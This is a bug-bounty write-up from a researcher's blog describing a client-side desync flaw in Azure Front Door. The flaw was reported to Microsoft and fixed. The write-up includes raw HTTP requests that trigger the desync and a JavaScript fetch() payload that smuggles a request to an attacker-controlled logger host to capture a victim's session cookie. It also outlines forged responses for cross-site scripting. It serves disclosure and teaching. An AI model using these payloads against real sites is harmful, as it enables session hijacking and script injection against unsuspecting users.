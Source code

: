 ```yaml
---
title: "Knocking on the Front Door (client side desync attack on Azure CDN)"
date: 2023-07-31T23:26:05+02:00
author: "Jeti"
authorTwitter: "0xJeti"
imageTwitter: "/frontdoor-cover.png"
---
```


A few months ago, I embarked on a security bug hunt within the scope of a private program available through the Intigriti platform. During this endeavor, I encountered an intriguing anomaly while analyzing the redirect from HTTP to HTTPS traffic on a particular host.

In this write-up, I will delve into the short journey that started after uncovering this strange behavior, ultimately leading to the discovery of a Client-Side Desync vulnerability within one of Microsoft Azure's CDN solutions known as Front Door.

## Discovery
It all started when I've sent following request to http://redacted.com:
```http
POST / HTTP/1.1
Host: redacted.com
[...]
Content-Length: 34

GET / HTTP/1.1
Host: redacted.com


```

Why such a strange request? I was just playing around in Burp after reading fantastic research on [Browser Powered desync attacks](https://portswigger.net/research/browser-powered-desync-attacks) by James [@Albinowax](https://twitter.com/albinowax)' Kettle.

And server responded with:
```http
HTTP/1.1 307 Temporary Redirect
Content-Type: text/html
Content-Length: 0
Connection: keep-alive
Location: https://redacted.com/
x-azure-ref: 20230522T201945Z-...
X-Cache: CONFIG_NOCACHE

HTTP/1.1 307 Temporary Redirect
Content-Type: text/html
Content-Length: 0
Connection: keep-alive
Location: https://redacted.com/
x-azure-ref: 20230522T201945Z-...
X-Cache: CONFIG_NOCACHE

```

At first glance, it looks like there is nothing unusual. The server received two requests in the same (keep-alive) connection and responded twice with a 307 redirect from `http://` to `https://` address.

But... Wait... In reality, I just sent one POST request with a body! The size of the body was defined by the `Content-Length` header.

However, I received two responses. This indicates that the server happily ignored the `Content-Length` header and interpreted my request as two separate requests.

This looks like a perfect candidate for Client-Side Desync attack described in above-mentioned reasearch. 

Quoting @Albinowax:
>Classic desync or request smuggling attacks rely on intentionally malformed requests that ordinary browsers simply won't send. This limits these attacks to websites that use a front-end/back-end architecture. However, as we've learned from looking at CL.0 attacks, it's possible to cause a desync using fully browser-compatible HTTP/1.1 requests. Not only does this open up new possibilities for server-side request smuggling, it enables a whole new class of threat - client-side desync attacks.

>A client-side desync (CSD) is an attack that makes the victim's web browser desynchronize its own connection to the vulnerable website. This can be contrasted with regular request smuggling attacks, which desynchronize the connection between a front-end and back-end server.

Upon conducting a more in-depth analysis, I discovered that this issue is not specific to the customer's solution but rather a general bug in the service utilized by the customer called [Azure Front Door](https://azure.microsoft.com/en-us/products/frontdoor/).

## Front Door

Azure Front Door service is a global, scalable content delivery network (CDN) and intelligent application delivery platform that provides secure and high-performance routing of web traffic to backend services.

Let's dive into some of the configurable options.

One of it's features (enabled by default) is to redirect all HTTP traffic to HTTPS.
![Frontdoor redirects HTTP to HTTPS](/frontdoor-http-to-https.png)

Technically this is done by redirecting browser to `https://` address via 307 status code:
![Front Door redirects with 307](/frontdoor-redirect-307.png)

Server supports keep-alive connections:
![Front Door supports keep-alive connections](/frontdoor-keep-alive-connections.png)

And redirects also POST requests:
![Front Door redirects POST requests](/frontdoor-redirect-post-requests.png)

But the problem is that it completely ignores `Content-Length` header:
![Front Door ignores Content-Length](/frontdoor-ignores-content-length.png)
What looks like two requests is in fact one request sent by the web browser where yellow box contains data for POST request (`Content-Length` header points to the end of the data).

But Front Door server ignores `Content-Length` header and treats it as two separate requests.

Another interesting design feature of Front Door (not a bug of course) is that all customer servers powered by Front Door service are available under one IP address and are also available in one keep-alive connection (this is a CDN service, right?). So this is perfectly valid set of requests sent in one TCP connection:

![Front Door is sharing connections](/frontdoor-sharing-connections.png)

> **NOTE 1:** *azure-victim.jeti.pw* and *azure-attacker.jeti.pw* are two separate web servers of two separate customers (I've used custom domains for better visibility).

> **NOTE 2:** *azure-attacker.jeti.pw* server doesn't have automatic HTTPS redirects turned on that is why it doesn't respond with redirect (this might be important for various exploitation techniques).

## Exploit

A CSD attack starts with the victim visiting the attacker's website, which then makes their browser send two cross-domain requests to the vulnerable website. The first request is crafted to desync the browser's connection and make the second request trigger a harmful request / response.

There are multiple ways how attacker can exploit this desynchronization issue. I'll focus on two possible ways.

### Stealing requests
Let's imagine that, upon visit from a victim, attacker's website sends a request (e.g. using Java Script `fetch API`):
```javascript
fetch('http://azure-victim.jeti.pw/x', {
method: 'POST',
  body: "POST /logger HTTP/1.1\r\nHost: azure-attacker.jeti.pw\r\nContent-Length: 200\r\n\r\n",
  mode: 'no-cors',
  redirect: 'follow',
  credentials: 'include'
})
```

![Incomplete request with fetch()](/frontdoor-fetch-incomplete-request.png)

Front Door service treats it as two separate requests where the second one is a POST request with some body attached (200 bytes long).

> **NOTE:** please remeber that *azure-attacker.jeti.pw* is configured to not to redirect automatically so the server checks `Content-Length` in this case.

As a request body is missing server will wait for 200 bytes of data to finish the request. 
All attacker needs to do is to redirect victim user to the victim's website:

```javascript
location = 'http://azure-victim.jeti.pw/'
```

Victim's browser will send another GET request (most of the time browser will re-use the  same connection). Both requests will look like this:
![Frontdoor complete request](/frontdoor-completed-request.png)
Server received it's 200 bytes of data and sent POST request to http://azure-attacker.jeti.pw/logger with following **data**:
```http
GET / HTTP/1.1
Host: azure-victim.jeti.pw
Accept-Encoding: gzip, deflate
Accept: */*
Cookie: PHPSESSID=uhogavedhcduei7qlfh1eplf7c
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Connection: keep-alive
Cache-Control: max-age=0

```

And effectively attacker had stolen the session cookie of the victim.

### "Universal" XSS by forging responses

Another way of expoiting a CSD vulnerability is to forge responses to the victim's requests.

Let's have a look at following request sent by the browser when victim visits malicious website (sent via `fetch API`):
![Poisoning response with XSS](/frontdoor-xss-request.png)

Front Door service again treats it as two separate requests and sends both to respective customer websites. And receives 2 separate responses.

But the victim's browser sent only one request so it expects only one response (307 redirect in our case). Second part stays in the connection pool waiting for another request to match (because of the HTTP pipelining).

When attacker redirects a victim, browser makes another request. 

But luckily for an attacker, the browser already have a response waiting in a connection pool (in our example response contains XSS payload that will be triggered in the context of website where victim was redirected).

As the attacker can redirect a victim to any Front Door powered website and forge the response I think this can be called a "Universal" XSS :)

# Timeline
|Date|Action|
|--|--|
|8 May 2023|Reported to Microsoft|
|27 June 2023|Vulnerability fixed|
|5 July 2023| Bounty paid ($7500)|